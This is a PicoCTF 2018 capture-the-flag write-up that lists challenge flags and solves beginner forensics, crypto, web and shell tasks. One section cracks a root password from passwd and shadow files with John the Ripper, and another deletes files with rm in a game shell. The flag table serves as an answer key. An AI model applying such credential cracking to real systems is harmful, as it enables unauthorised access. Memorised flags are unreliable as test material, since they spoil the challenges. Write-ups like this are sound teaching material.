


# PicoCTF 2018

Two-week long competition in Sept/October 2018

Had a fun little game environment for the challenges as well as text based


## Overview


Title                                                                      | Category         | Points | Flag
-------------------------------------------------------------------------- | ---------------- | ------ | ------------------------------
[Forensics Warmup 1          ](#forensics-50-forensics-warmup-1)           | Forensics        | 50     | `picoCTF{welcome_to_forensics}`
[Forensics Warmup 2          ](#forensics-50-forensics-warmup-2)           | Forensics        | 50     | `picoCTF{extensions_are_a_lie}`
[General Skills Warmup 1     ](#general-skills-50-general-skills-warmup-1) | General Skills   | 50     | `picoCTF{A}`
[General Skills Warmup 2     ](#general-skills-50-general-skills-warmup-2) | General Skills   | 50     | `picoCTF{11011}`
[General Skills Warmup 3     ](#general-skills-50-general-skills-warmup-3) | General Skills   | 50     | `picoCTF{61}`
[Resources                   ](#general-skills-50-resources)               | General Skills   | 50     | `picoCTF{xiexie_ni_lai_zheli}`
[Reversing Warmup 1          ](#reversing-50-reversing-warmup-1)           | Reversing        | 50     | `picoCTF{welc0m3_t0_r3VeRs1nG}`
[Reversing Warmup 2          ](#reversing-50-reversing-warmup-2)           | Reversing        | 50     | `picoCTF{th4t_w4s_s1mpL3i}`
[Crypto Warmup 1             ](#cryptography-75-crypto-warmup-1)           | Cryptography     | 75     | `picoCTF{SECRETMESSAGE}`
[Crypto Warmup 2             ](#cryptography-75-crypto-warmup-2)           | Cryptography     | 75     | `picoCTF{this_is_crypto!}`
[grep 1                      ](#general-skills-75-grep-1)                  | General Skills   | 75     | `picoCTF{grep_and_you_will_find_c709fa94}`
[net cat                     ](#general-skills-75-net-cat)                 | General Skills   | 75     | `picoCTF{NEtcat_iS_a_NEcESSiTy_8b6a1fbc}`
[HEEEEEEERE'S Johnny!        ](#cryptography-100-heeeeeeeres-johnny)       | Cryptography     | 100    | `picoCTF{J0hn_1$_R1pp3d_1b25af80}`
[strings 1                   ](#general-skills-100-strings-1)              | General Skills   | 100    | `picoCTF{sTrIngS_sAVeS_Time_d3ffa29c}`
[pipe                        ](#general-skills-110-pipe)                   | General Skills   | 110    | `picoCTF{almost_like_mario_b797f2b3}`
[Inspect Me                  ](#web-125-inspect-me)                        | Web              | 125    | `picoCTF{ur_4_real_1nspect0r_g4dget_b4887011}`
[grep 2                      ](#general-skills-125-grep-2)                 | General Skills   | 125    | `picoCTF{grep_r_and_you_will_find_8eb84049}`
[Aca-Shell-A                 ](#general-skills-150-aca-shell-a)            | General Skills   | 150    | `picoCTF{CrUsHeD_It_4e355279}`
[Client Side is still Bad    ](#web-150-client-side-is-still-bad)          | Web              | 150    | `picoCTF{client_is_bad_040594}`
[Desrouleaux                 ](#forensics-150-desrouleaux)                 | Forensics        | 150    | `picoCTF{J4y_s0n_d3rUUUULo_b6cacd6c}`
[Logon                       ](#web-150-logon)                             | Web              | 150    | `picoCTF{l0g1ns_ar3nt_r34l_2a968c11}`
[Reading between the eyes    ](#forensics-150-reading-between-the-eyes)    | Forensics        | 150    | `picoCTF{r34d1ng_b37w33n_7h3_by73s}`
[Recovering from the snap    ](#forensics-150-recovering-from-the-snap)    | Forensics        | 150    | `picoCTF{th3_5n4p_happ3n3d}`
[admin panel                 ](#forensics-150-admin-panel)                 | Forensics        | 150    | `picoCTF{n0ts3cur3_894a6546}`
[assembly-0                  ](#reversing-150-assembly-0)                  | Reversing        | 150    | `0x7a`
[buffer overflow 0           ](#binary-exploit-150-buffer-overflow-0)      | Binary Exploit   | 150    | `picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}`
[caesar cipher 1             ](#cryptography-150-caesar-cipher-1)          | Cryptography     | 150    | `picoCTF{justagoodoldcaesarcipherwoyolfpu}`
[environ                     ](#general-skills-150-environ)                | General Skills   | 150    | `picoCTF{eNv1r0nM3nT_v4r14Bl3_fL4g_3758492}`
[hertz                       ](#cryptography-150-hertz)                    | Cryptography     | 150    | `substitution_ciphers_are_solvable_mwettfesvn`
[hex editor                  ](#forensics-150-hex-editor)                  | Forensics        | 150    | `picoCTF{and_thats_how_u_edit_hex_kittos_3E03e57d}`
[ssh-keyz                    ](#general-skills-150-ssh-keyz)               | General Skills   | 150    | `picoCTF{who_n33ds_p4ssw0rds_38dj21}`
[Irish Name Repo             ](#web-200-irish-name-repo)                   | Web              | 200    | `picoCTF{con4n_r3411y_1snt_1r1sh_f58843c5}`
[Mr. Robots                  ](#web-200-mr-robots)                         | Web              | 200    | `picoCTF{th3_w0rld_1s_4_danger0us_pl4c3_3lli0t_30de1}`
[No Login                    ](#web-200-no-login)                          | Web              | 200    | `picoCTF{n0l0g0n_n0_pr0bl3m_50e16a5c}`
[Secret Agent                ](#web-200-secret-agent)                      | Web              | 200    | `picoCTF{s3cr3t_ag3nt_m4n_134ecd62}`
[Truly an Artist             ](#forensics-200-truly-an-artist)             | Forensics        | 200    | `picoCTF{look_in_image_788a182e}`
[assembly-1                  ](#reversing-200-assembly-1)                  | Reversing        | 200    | `0x73`
[be-quick-or-be-dead-1       ](#reversing-200-be-quick-or-be-dead-1)       | Reversing        | 200    | `picoCTF{why_bother_doing_unnecessary_computation_27f28e71}`
[blaise's cipher             ](#cryptography-200-blaises-cipher)           | Cryptography     | 200    | `picoCTF{v1gn3r3_c1ph3rs_ar3n7_bad_cdf08bf0}`
[buffer overflow 1           ](#binary-exploit-200-buffer-overflow-1)      | Binary Exploit   | 200    | `picoCTF{addr3ss3s_ar3_3asy56a7b196}`
[hertz 2                     ](#cryptography-200-hertz-2)                  | Cryptography     | 200    | `picoCTF{substitution_ciphers_are_too_easy_sgsgtnpibo}`
[leak-me                     ](#binary-exploit-200-leak-me)                | Binary Exploit   | 200    | `picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}`
[now you don't               ](#forensics-200-now-you-dont)                | Forensics        | 200    | `picoCTF{n0w_y0u_533_m3}`
[shellcode                   ](#binary-exploit-200-shellcode)              | Binary Exploit   | 200    | `picoCTF{shellc0de_w00h00_9ee0edd0}`
[what base is this?          ](#general-skills-200-what-base-is-this)      | General Skills   | 200    | `picoCTF{delusions_about_finding_values_602fd280}`
[you can't see me            ](#general-skills-200-you-cant-see-me)        | General Skills   | 200    | `picoCTF{j0hn_c3na_paparapaaaaaaa_paparapaaaaaa_22f627d9}`
[Buttons                     ](#web-250-buttons)                           | Web              | 250    | `picoCTF{button_button_whose_got_the_button_ed306c10}`
[Ext Super Magic             ](#forensics-250-ext-super-magic)             | Forensics        | 250    | `picoCTF{a7DB29eCf7dB9960f0A19Fdde9d00Af0}`
[Lying Out                   ](#forensics-250-lying-out)                   | Forensics        | 250    | `picoCTF{w4y_0ut_ff5bd19c}`
[Safe RSA                    ](#cryptography-250-safe-rsa)                 | Cryptography     | 250    | `picoCTF{e_w4y_t00_sm411_81b6559f}`
[The Vault                   ](#web-250-the-vault)                         | Web              | 250    | `picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}`
[What's My Name?             ](#forensics-250-whats-my-name)               | Forensics        | 250    | `picoCTF{w4lt3r_wh1t3_2d6d3c6c75aa3be7f42debed8ad16e3b}`
[absolutely relative         ](#general-skills-250-absolutely-relative)    | General Skills   | 250    | `picoCTF{3v3r1ng_1$_r3l3t1v3_a97be50e}`
[assembly-2                  ](#reversing-250-assembly-2)                  | Reversing        | 250    | `0x188`
[buffer overflow 2           ](#binary-exploit-250-buffer-overflow-2)      | Binary Exploit   | 250    |
[caesar cipher 2             ](#cryptography-250-caesar-cipher-2)          | Cryptography     | 250    | `picoCTF{cAesaR_CiPhErS_juST_aREnT_sEcUrE}`
[got-2-learn-libc            ](#binary-exploit-250-got-2-learn-libc)       | Binary Exploit   | 250    |
[rsa-madlibs                 ](#cryptography-250-rsa-madlibs)              | Cryptography     | 250    | `picoCTF{d0_u_kn0w_th3_w@y_2_RS@_5d383e10}`
[in out error                ](#general-skills-275-in-out-error)           | General Skills   | 275    | `picoCTF{p1p1ng_1S_4_7h1ng_b6f5a788}`
[Artisinal Handcrafted HTTP 3](#web-300-artisinal-handcrafted-http-3)      | Web              | 300    | `picoCTF{0nLY_Us3_n0N_GmO_xF3r_pR0tOcol5_72f2}`
[SpyFi                       ](#cryptography-300-spyfi)                    | Cryptography     | 300    | `picoCTF{@g3nt6_1$_th3_c00l3$t_3355197}`
[echooo                      ](#binary-300-echooo)                         | Binary           | 300    | `picoCTF{foRm4t_stRinGs_aRe_DanGer0us_254148ae}`
[learn gdb                   ](#general-skills-300-learn-gdb)              | General Skills   | 300    | `picoCTF{gDb_iS_sUp3r_u53fuL_66d5464d}`
[Flaskcards                  ](#web-350-flaskcards)                        | Web              | 350    |
[core                        ](#forensics-350-core)                        | Forensics        | 350    | `picoCTF{abb6a3b2603654804ed357322c760510}`
[got-shell?                  ](#binary-350-got-shell)                      | Binary           | 350    |
[roulette                    ](#general-skills-350-roulette)               | General Skills   | 350    |
[Malware Shops               ](#forensics-400-malware-shops)               | Forensics        | 400    | `picoCTF{w4y_0ut_dea1794b}`
[Radix's Terminal            ](#reversing-400-radixs-terminal)             | Reversing        | 400    | `picoCTF{bAsE_64_eNCoDiNg_iS_EAsY_41799451}`
[assembly-3                  ](#reversing-400-assembly-3)                  | Reversing        | 400    | `0x56a3`
[eleCTRic                    ](#cryptography-400-electric)                 | Cryptography     | 400    |
[fancy-alive-monitoring      ](#web-400-fancy-alive-monitoring)            | Web              | 400    |
[store                       ](#general-skills-400-store)                  | General Skills   | 400    |
[Secure Logon                ](#web-500-secure-logon)                      | Web              | 500    |
[script me                   ](#general-skills-500-script-me)              | General Skills   | 500    |
[LoadSomeBits                ](#forensics-550-loadsomebits)                | Forensics        | 550    |
[assembly-4                  ](#reversing-550-assembly-4)                  | Reversing        | 550    | `picoCTF{1_h0p3_y0u_c0mP1l3d_tH15_94698637}`
[Help Me Reset               ](#web-600-help-me-reset)                     | Web              | 600    |
[A Simple Question           ](#web-650-a-simple-question)                 | Web              | 650    | `picoCTF{qu3stions_ar3_h4rd_d3850719}`
[LambDash 3                  ](#web-800-lambdash-3)                        | Web              | 800    |
[Dog or Frog                 ](#general-skills-900-dog-or-frog)            | General Skills   | 900    |

## Forensics 50: Forensics Warmup 1

**Challenge**

Can you unzip [this file](writeupfiles/flag.zip) for me and retreive the flag?

**Solution**

we unzip to find an image:


**Flag**
```
picoCTF{welcome_to_forensics}
```

## Forensics 50: Forensics Warmup 2

**Challenge**

Hmm for some reason I can't open [this PNG](writeupfiles/flag.png)? Any ideas?

**Solution**

Turns out the file isn't actually a png file (though gimp will open it even with
the wrong extension)

```bash
$ file flag.png
flag.png: JPEG image data, JFIF standard 1.01, resolution (DPI), density 75x75, segment length 16, baseline, precision 8, 909x190, frames 3
```


**Flag**
```
picoCTF{extensions_are_a_lie}
```

## General Skills 50: Warmup 1

**Challenge**

If I told you your grade was `0x41` in hexadecimal, what would it be in ASCII?

**Solution**

```python
>>> chr(int('41',16))
'A'
```

**Flag**
```
picoCTF{A}
```

## General Skills 50: Warmup 2

**Challenge**

**Solution**

```python
>>> bin(27)
'0b11011'
```

**Flag**
```
picoCTF{11011}
```


## General Skills 50: Warmup 3

**Challenge**

What is 0x3D (base 16) in decimal (base 10).

**Solution**

```python
>>> int('3D',16)
61
```

**Flag**
```
picoCTF{61}
```

## General Skills 50: Resources

**Challenge**

We put together a bunch of resources to help you out on our website! If you go over there,
you might even find a flag! https://picoctf.com/resources

**Solution**

flag was just written on the page

**Flag**
```
picoCTF{xiexie_ni_lai_zheli}
```

## Reversing 50: Reversing Warmup 1

**Challenge**

 Throughout your journey you will have to run many programs. Can you navigate to
`/problems/reversing-warmup-1_0_f99f89de33522c93964bdec49fb2b838` on the shell server
and run [this program](writeupfiles/run) to retreive the flag?


**Solution**

```bash
$ ssh ysje@2018shell1.picoctf.com
picoCTF{who_n33ds_p4ssw0rds_38dj21}
Welcome ysje!
Your shell server account has been created.
Please press enter and reconnect.
```

We see a flag there but its not for this challenge

```bash
$ cd /problems/reversing-warmup-1_0_f99f89de33522c93964bdec49fb2b838
$ ./run
picoCTF{welc0m3_t0_r3VeRs1nG}
```

or

```bash
$ strings run | grep picoCTF
picoCTF{welc0m3_t0_r3VeRs1nG}
```


**Flag**
```
picoCTF{welc0m3_t0_r3VeRs1nG}
```

## Reversing 50: Reversing Warmup 2

**Challenge**

Can you decode the following string `dGg0dF93NHNfczFtcEwz` from base64 format to ASCII?

**Solution**

```python
>>> import base64
>>> base64.b64decode('dGg0dF93NHNfczFtcEwz')
'th4t_w4s_s1mpL3'
```


**Flag**
```
picoCTF{th4t_w4s_s1mpL3}
```

## Cryptography 75: Crypto Warmup 1

**Challenge**

Crpyto can often be done by hand, here's a message you got from a friend, `llkjmlmpadkkc` with the key of `thisisalilkey`. Can you use this table to solve it?.

```
    A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
   +----------------------------------------------------
A | A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
B | B C D E F G H I J K L M N O P Q R S T U V W X Y Z A
C | C D E F G H I J K L M N O P Q R S T U V W X Y Z A B
D | D E F G H I J K L M N O P Q R S T U V W X Y Z A B C
E | E F G H I J K L M N O P Q R S T U V W X Y Z A B C D
F | F G H I J K L M N O P Q R S T U V W X Y Z A B C D E
G | G H I J K L M N O P Q R S T U V W X Y Z A B C D E F
H | H I J K L M N O P Q R S T U V W X Y Z A B C D E F G
I | I J K L M N O P Q R S T U V W X Y Z A B C D E F G H
J | J K L M N O P Q R S T U V W X Y Z A B C D E F G H I
K | K L M N O P Q R S T U V W X Y Z A B C D E F G H I J
L | L M N O P Q R S T U V W X Y Z A B C D E F G H I J K
M | M N O P Q R S T U V W X Y Z A B C D E F G H I J K L
N | N O P Q R S T U V W X Y Z A B C D E F G H I J K L M
O | O P Q R S T U V W X Y Z A B C D E F G H I J K L M N
P | P Q R S T U V W X Y Z A B C D E F G H I J K L M N O
Q | Q R S T U V W X Y Z A B C D E F G H I J K L M N O P
R | R S T U V W X Y Z A B C D E F G H I J K L M N O P Q
S | S T U V W X Y Z A B C D E F G H I J K L M N O P Q R
T | T U V W X Y Z A B C D E F G H I J K L M N O P Q R S
U | U V W X Y Z A B C D E F G H I J K L M N O P Q R S T
V | V W X Y Z A B C D E F G H I J K L M N O P Q R S T U
W | W X Y Z A B C D E F G H I J K L M N O P Q R S T U V
X | X Y Z A B C D E F G H I J K L M N O P Q R S T U V W
Y | Y Z A B C D E F G H I J K L M N O P Q R S T U V W X
Z | Z A B C D E F G H I J K L M N O P Q R S T U V W X Y
```

**Solution**

Looks like vigenere,


**Flag**
```
picoCTF{SECRETMESSAGE}
```

## Cryptography 75: Crypto Warmup 2

**Challenge**

Cryptography doesn't have to be complicated, have you ever heard of something called rot13? `cvpbPGS{guvf_vf_pelcgb!}`

**Solution**

```python
>>> 'cvpbPGS{guvf_vf_pelcgb!}'.decode('rot13')
u'picoCTF{this_is_crypto!}'
```

**Flag**
```
picoCTF{this_is_crypto!}
```

## General Skills 75: grep 1

**Challenge**

Can you find the flag in [file](writeupfiles/file)? This would be really obnoxious to look through by hand, see if you can find a faster way.

**Solution**

```bash
$ grep "picoCTF" file
picoCTF{grep_and_you_will_find_c709fa94}
```

**Flag**
```
picoCTF{grep_and_you_will_find_c709fa94}
```

## General Skills 75: net cat

**Challenge**

Using netcat (nc) will be a necessity throughout your adventure. Can you connect to `2018shell1.picoctf.com` at port `49387` to get the flag?

**Solution**

```bash
$ nc 2018shell1.picoctf.com 49387
That wasn't so hard was it?
picoCTF{NEtcat_iS_a_NEcESSiTy_8b6a1fbc}
```

**Flag**
```
picoCTF{NEtcat_iS_a_NEcESSiTy_8b6a1fbc}
```

## Cryptography 100: HEEEEEEERE'S Johnny!

**Challenge**

Okay, so we found some important looking files on a linux computer. Maybe they can be used to get a password to the process.
Connect with `nc 2018shell1.picoctf.com 40157`. Files can be found here: [passwd](writeupfiles/passwd) [shadow](writeupfiles/shadow).

**Solution**

We use a combination of unshadow and john the ripper to find the password

```
$ unshadow passwd shadow > crackme
$ john crackme
Created directory: /home/saskia/.john
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (root)
1g 0:00:00:01 100% 2/3 0.5102g/s 469.3p/s 469.3c/s 469.3C/s 123456..pepper
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So we know the password for the root user is `password1`. We use that to log into the server

```bash
$ nc 2018shell1.picoctf.com 40157
Username: root
Password: password1
picoCTF{J0hn_1$_R1pp3d_1b25af80}

```

**Flag**
```
picoCTF{J0hn_1$_R1pp3d_1b25af80}
```

## General Skills 100: strings

**Challenge**

Can you find the flag in [this file](writeupfiles/strings) without actually running it? You can also find the file
in `/problems/strings_4_40d221755b4a0b134c2a7a2e825ef95f` on the shell server.

**Solution**

```bash
$ strings strings | grep picoCTF
picoCTF{sTrIngS_sAVeS_Time_d3ffa29c}
```

**Flag**
```
picoCTF{sTrIngS_sAVeS_Time_d3ffa29c}
```

## GEneral Skills 110: pipe

**Challenge**

During your dventure, you will likely encounter a situation where you need to process
data that you receive over the network rather than through a file. Can you find a way
to save the output from this program and search for the flag?
Connect with `2018shell1.picoctf.com 34532`.

**Solution**

We connect via netcat and are flooded with messages

```bash
$ nc 2018shell1.picoctf.com 34532
Unfortunately this is also not a flag
This is not a flag
This is not a flag
I'm sorry you're going to have to look at another line
I'm sorry you're going to have to look at another line
I'm sorry you're going to have to look at another line
Unfortunately this is also not a flag
I'm sorry you're going to have to look at another line
I'm sorry you're going to have to look at another line
I'm sorry you're going to have to look at another line
Unfortunately this is also not a flag
I'm sorry you're going to have to look at another line
Unfortunately this is also not a flag
This is not a flag
[..]
```

So we do a grep:

```bash
$ nc 2018shell1.picoctf.com 34532 | grep picoCTF
picoCTF{almost_like_mario_b797f2b3}
```

**Flag**
```
picoCTF{almost_like_mario_b797f2b3}
```


## Web Exploitation 125: Inspect Me

**Challenge**

**Solution**

We check the source:

```html
<!doctype html>
<html>
  <head>
    <title>My First Website :)</title>
    <link href="https://fonts.googleapis.com/css?family=Open+Sans|Roboto" rel="stylesheet">
    <link rel="stylesheet" type="text/css" href="mycss.css">
    <script type="application/javascript" src="myjs.js"></script>
  </head>

  <body>
    <div class="container">
      <header>
	<h1>My First Website</h1>
      </header>

      <button class="tablink" onclick="openTab('tabintro', this, '#222')" id="defaultOpen">Intro</button>
      <button class="tablink" onclick="openTab('tababout', this, '#222')">About</button>

      <div id="tabintro" class="tabcontent">
	<h3>Intro</h3>
	<p>This is my first website!</p>
      </div>

      <div id="tababout" class="tabcontent">
	<h3>About</h3>
	<p>These are the web skills I've been practicing: <br/>
	  HTML <br/>
	  CSS <br/>
	  JS (JavaScript)
	</p>
	<!-- I learned HTML! Here's part 1/3 of the flag: picoCTF{ur_4_real_1nspe -->
      </div>

    </div>

  </body>
</html>
```

Looks like only 1/3 of the flag, we keep looking

mycss.css

```css
div.container {
    width: 100%;
}

header {
    background-color: #c9d8ef;
    padding: 1em;
    color: white;
    clear: left;
    text-align: center;
}

body {
    font-family: Roboto;
}

h1 {
    color: #222;
}

p {
    font-family: "Open Sans";
}

.tablink {
    background-color: #555;
    color: white;
    float: left;
    border: none;
    outline: none;
    cursor: pointer;
    padding: 14px 16px;
    font-size: 17px;
    width: 50%;
}

.tablink:hover {
    background-color: #777;
}

.tabcontent {
    color: #111;
    display: none;
    padding: 50px;
    text-align: center;
}

#tabintro { background-color: #ccc; }
#tababout { background-color: #ccc; }

/* I learned CSS! Here's part 2/3 of the flag: ct0r_g4dget_b4887011} */
```

`myjs.js`:

```js
function openTab(tabName,elmnt,color) {
    var i, tabcontent, tablinks;
    tabcontent = document.getElementsByClassName("tabcontent");
    for (i = 0; i < tabcontent.length; i++) {
	tabcontent[i].style.display = "none";
    }
    tablinks = document.getElementsByClassName("tablink");
    for (i = 0; i < tablinks.length; i++) {
	tablinks[i].style.backgroundColor = "";
    }
    document.getElementById(tabName).style.display = "block";
    if(elmnt.style != null) {
	elmnt.style.backgroundColor = color;
    }
}

window.onload = function() {
    openTab('tabintro', this, '#222');
}

/* I learned JavaScript! Here's part 3/3 of the flag:  */
```

**Flag**
```
picoCTF{ur_4_real_1nspect0r_g4dget_b4887011}
```

## General Skills 125: grep 2

**Challenge**

This one is a little bit harder. Can you find the flag in `/problems/grep-2_2_413a577106278d0711d28a98f4f6ac28/files`
on the shell server? Remember, grep is your friend.

**Solution**

```bash
$ cd /problems/grep-2_2_413a577106278d0711d28a98f4f6ac28/files
$ ls
files0  files1  files2  files3  files4  files5  files6  files7  files8  files9
$ grep -r "picoCTF"
files2/file16:picoCTF{grep_r_and_you_will_find_8eb84049}
```

**Flag**
```
picoCTF{grep_r_and_you_will_find_8eb84049}
```


## General Skills 150: Aca-Shell-A

**Challenge**
It's never a bad idea to brush up on those linux skills or even learn some new ones
before you set off on this adventure! Connect with `nc 2018shell1.picoctf.com 58422`.

**Solution**


```bash
$ nc 2018shell1.picoctf.com 58422
Sweet! We have gotten access into the system but we aren't root.
It's some sort of restricted shell! I can't see what you are typing
but I can see your output. I'll be here to help you along.
If you need help, type "echo 'Help Me!'" and I'll see what I can do
There is not much time left!

~/$ ls
blackmail
executables
passwords
photos
secret

~/$ cd secret
Now we are cookin'! Take a look around there and tell me what you find!
~/secret$ ls
intel_1
intel_2
intel_3
intel_4
intel_5
profile_AipieG5Ua9aewei5ieSoh7aph
profile_Xei2uu5suwangohceedaifohs
profile_ahShaighaxahMooshuP1johgo
profile_ahqueith5aekongieP4ahzugi
profile_aik4hah9ilie9foru0Phoaph0
profile_bah9Ech9oa4xaicohphahfaiG
profile_ie7sheiP7su2At2ahw6iRikoe
profile_of0Nee4laith8odaeLachoonu
profile_poh9eij4Choophaweiwev6eev

Sabatoge them! Get rid of all their intel files!

~/secret$ rm intel*

Nice! Once they are all gone, I think I can drop you a file of an exploit!
Just type "echo 'Drop it in!' " and we can give it a whirl!

~/secret$ echo "Drop it in!"
Drop it in!
I placed a file in the executables folder as it looks like the only place we can execute from!

Run the script I wrotec to have a little more impact on the system!
~/secret$ cd ..
~/$ cd executables
~/executables$ ./dontLookHere
 0f5d ae3d 4183 37ae 3184 3f11 68e0 53af dbfd 7cd4 41fe 2b13 a3ef d071 54a9 f6b8 6535 5ebf a899 2136 4bbb 21cb 5088 031c f7e7
 818c ee94 3199 0366 b774 3452 13ea fa0a ae8f 9ec7 ad8b 34e5 7c6b 3ad2 e2a1 6aa6 4460 c455 2373 dcda 70b3 9c2b 0129 81e1 1c7e
 156e 74da 51f4 7a24 0ac8 6cc8 f3e3 b474 aa69 2e04 0373 1b16 ab8d ca36 4d48 9b36 cb31 bab3 b6f6 a59f 57ed 6d7a 0431 a520 c983
 343d c6e3 885f 9b32 d60d 4b67 cb7f 451d 230f 0e4d 5ed7 d58b cd59 cc8e d173 4adc 272a 3dc5 05f6 a076 9697 1949 d825 7821 b36e
 9fc4 58e8 a075 c5be 3517 dc17 fbd4 1fe2 5ece b992 b8e4 3618 bff6 3cb5 8fcd 3815 4364 055a 6143 be13 f771 e2aa 4766 e72c 19a3
 849c 26a4 c62d 8064 3691 9182 f357 8dd6 99b3 6d31 cda8 86cb 7eed 235c dd33 a4e6 8763 674d ea07 fdd9 b84a 32b5 7280 99f2 e920
 156b a1b3 d695 ffb2 25da e2bb dae5 6ec2 7990 a94e b6a4 c8d2 47ab 3c4b d945 834c cb19 d49d 4bf0 34a9 f79a 4a4f d87f 6c4d 6c2f
 79da a7d1 ce79 ec8d b33e 5a3d 5fcf 2ef4 3bbc eb2c 55cb 0278 6eb6 63af 063a 82cb ce55 7841 904b aabe 291c c69f 1311 e985 e8ee
 eee0 22bc 41e9 df14 d174 e9c2 7930 686e 6691 73c4 6ff9 2d37 821c 3d4c 7b6a 0321 a243 edc5 1c73 f4a0 4417 5d45 a59a 027f db2c
 88c2 2cca ca38 2361 9a06 5e73 b532 902d b485 f711 4856 c428 ff30 a40c 27ac 2849 ac67 b7a0 5cc2 3f7b a716 3cb1 eb28 a1ec 49c9
 ef0a e38f 7c8a a1b3 dddd 26cf 56bf b8f2 e0c9 d37d 6849 c6bf 2a6a d5b3 91ba 3b18 f522 7857 7393 5124 3c18 abd3 30ed 4766 9b82
 523f 5524 5243 1c79 3e4c 82ea f4d2 e420 2d13 8571 a4dd 4bb7 4eb1 0d27 7a00 e2d0 2440 b821 b576 778f c6eb 27b8 d95d c2a9 e7b1
 187a 1a10 dcbd d8c1 d1b8 6881 92e1 b9d9 6194 1e41 c9a7 080a 031c eba7 83f0 5e11 3d86 41a2 4c56 4726 ac14 ffbe 697c 086c 5bd7
 ff07 68ee 1b14 e8ad 9306 d353 4b3d f5b4 36cb 720a 8bd3 5d6c fc78 2330 3cb8 2b2d bf47 229f 9cc9 9bba 1e02 eb5f 2cf0 1974 d987
 0193 7884 482c 0f53 b2bf 4390 c4de df00 8a1d 71cb 5413 3172 a90e aee1 9ac2 a5e2 3912 183d 2856 7d55 ec4b 117f 0e1f 3ad5 dd6e
 5064 98d6 a3bd 2b92 c8b7 9f34 1f9d 8fa8 9dff 1af9 435d 4c3f a30e 3dc1 2137 56c2 8454 a0eb 6cc8 48a1 0b9a af06 3a83 f38d bbe0
 dea0 4374 118b b79f 2487 1086 1ca8 6fee 7187 e70c 697b a5bb d0ee b0a3 125e 7a99 1dc1 cc1e 98cc ce69 0519 4b67 7723 ef3b 8cc1
 d7f1 1480 8564 43d3 78f0 c705 5af1 1d77 b52e 681c 9f34 e967 6861 fb47 a502 b8d1 8057 5b6f db48 2731 4d0e 3bcc 5492 a03e 544d
 1d78 a5bc e79e 0489 c718 419d c182 28cc 86c2 2d11 d48a c372 fe62 13a4 0948 61aa 1d10 0fa1 4ebd 31ab e3b2 e4e0 b047 b002 9311
 d3ea ae07 7043 bd32 f4f3 58ca 841e 1c08 41e1 8dc3 e535 66e6 61fd 2004 085b 6258 58bc 12d4 5faa 31a4 b615 992a 2fc7 2950 8834
 77c5 4efb 1a1e 90b2 f9ca 27c4 8880 a6b0 a984 7b76 272c 64dd 4751 0ab9 ddb6 0fad ec5f 6a86 2f63 f69a ab62 9119 44ca acdd 7e12
 9020 e795 0096 4168 c7ae ecb0 0b40 ba3a fc2c 8d9f ee51 60b0 9720 6d4d a073 d9d2 cd41 70e3 36b1 e746 54a8 6493 11b1 9482 ac0a
 d7dd c7d2 49bc 4f81 48db 9975 788f a27e 371f 9102 df89 7215 b28f b18f d8f2 78ef db1b 05b7 5f2a 37b3 37e1 07d4 5ff0 677d b4b4
 8c05 f00a f01b d99a a29d 96a4 0028 b5b2 6c2c f20b 84e7 06cf 7c02 0ac8 cbf4 dcfa 6cf6 18f2 ca72 2def 232b 34f1 1416 d00c f337
 30ac 37de 97c0 c751 516d 01f0 9d33 0782 22ad 31dc 0775 697f 9956 58d0 dd2f 9158 4aa8 05d2 5a99 71a4 94ad a3b9 f782 e9c3 d93e
 0b35 578d 6707 d2b8 da62 f119 0af6 4579 37e7 90a6 0215 3b41 5984 7644 af07 111d a872 f09c 5bd3 2f92 4568 e6ef 1521 d977 42e4
 7342 5288 afa2 8884 ad9f 5768 70a8 7f9c b9e5 b5fe 1c8c 6872 fbad 6c2b f2b7 a36c ef0f ef92 56c1 9fea e070 d8d8 df14 09b7 4fc4
 16d4 ae3e 7f34 c054 28ac 7d2d f9b6 e324 ef3f dbc7 4dd9 6cd8 85bd 90f5 e70d 7830 4847 3a73 c450 a4e7 dea3 eaba 5f83 de6a bd65
